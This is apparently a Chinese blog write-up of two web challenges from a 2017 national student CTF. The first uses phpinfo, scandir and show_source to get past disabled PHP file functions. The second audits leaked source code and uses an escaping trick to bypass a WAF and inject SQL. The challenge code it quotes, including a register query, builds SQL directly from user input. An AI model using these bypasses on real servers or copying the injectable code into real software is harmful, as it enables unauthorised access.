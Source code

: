 ```yaml
---
title: 国赛的两个Web题
date: 2017-09-10 15:58:56
tags:
	- CTF
	- 全国大学生信息安全竞赛
---
```

在全国大学生信息安全竞赛(线上赛)上划了波水，对我来说题目挺难的，好多姿势都没见过。
<!-- more -->

## 0x00 两个最简单的Web的题解


### Web-PHP execise
这个题目考察了PHP的几个简单的语法
首先在题目中执行phpinfo()函数
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-1.png)
在其中的找到被禁用的函数

```
disable_functions
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,fopen,file_get_contents,fread,file_get_contents,file,readfile,opendir,readdir,closedir,rewinddir,
```
然后通过getcwd()函数获取服务器当前目录路径
```
echo getcwd()
```
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-2.png)
从而获取路径

```
/var/www/html
```
然后获取当前目录下的所有文件的文件名
```
$dir="/var/www/html";print_r(scandir($dir))
```
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-3.png)
判断flag在flag_62cfc2dc115277d0c04ed0f74e48e3e9.php这个文件中，但是PHP几乎所有对文件操作的函数都被禁用了。在这时想到了以前表哥们给我们出题的时候，有的Web题的源码直接显示在网页上了，利用的show_source()函数.于是乎：

```
include"flag_62cfc2dc115277d0c04ed0f74e48e3e9.php";show_source("flag_62cfc2dc115277d0c04ed0f74e48e3e9.php")
```
从而获取flag

![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-4.png)

### Web-wanna to see your hat?
这题有毒，不拿到flag就给你10个绿帽子。。(╯‵□′)╯︵┻━┻

主要考察的代码审计和SQL注入。首先有一个SVN源码泄露漏洞，利用工具将网站所有的源码下载下来，进行审计。关键代码如下:

```
$_POST=d_addslashes($_POST);
$_GET=d_addslashes($_GET);
function d_addslashes($array){
        foreach($array as $key=>$value){
        if(!is_array($value)){
            !get_magic_quotes_gpc() && $value=addslashes($value);
            waf($value);
            $array[$key]=$value;
        }   
    }   
    return $array;
}
function waf($value){
    $Filt = "\bUNION.+SELECT\b|SELECT.+?FROM";
    if (preg_match("/".$Filt."/is",$value)==1){
        die("found a hacker");
    }
    $value = str_replace(" ","",$value);  
    return $value;
}
if (isset($_POST["name"])){
  $name = str_replace("'", "", trim(waf($_POST["name"])));
  if (strlen($name) > 11){
    echo("<script>alert('name too long')</script>");
  }else{
    $sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
    echo $sql;
    $result = mysql_query($sql);
    $row = mysql_fetch_array($result);
    if ($row[0]){
      $_SESSION['hat'] = 'black';
      echo 'good job';
    }else{
	$_SESSION['hat'] = 'green';
    }
```
最终目的是令$_SESSION['hat'] = 'black';这也就意味着在执行SQL语句时，可以返回数据。但是，在register.php的插入语句为

```
$sql = "insert into t_user (username,nickname,password) values('".$_POST['username']."', '".$_POST['nickname']."','".md5($_POST['password'])."')";
```
它注册时写入数据的表与登陆时查询的表不是一个，这也把我的思路带偏了，我一开始认为，在register.php里面构造语句在t_info表中插入数据。但根据查到的资料显示，SQL只允许一个插入语句对一个表操作。没辙了。。去请教表哥们。
关键点在login.php，即登录界面。
关键语句
```
$name = str_replace("'", "", trim(waf($_POST["name"])));
```
在POST传入name时，如果传进的字符串中有“'”单引号，则会被加上反斜杠进行转义，然后在waf里面，若有空格则会被去掉。然后“\'”中的单引号被去掉，成为了“\”,若这个反斜杠在结尾，则会把 
```
$sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
```
第一个name的第二个单引号转义，导致

```
$name' or nickname =
```
成为了字符串。因此令

```
name==(0)=1#'
```
最终执行的SQL语句为
```
$sql = "select count(*) from t_info where username = '=(0)=1#\' or nickname = '=(0)=1#\'";
```
该语句为真，因此返回数据，使得$_SESSION['hat'] = 'black';从而返回flag
![image](http://osn75zd5c.bkt.clouddn.com/Web-green-1.png)
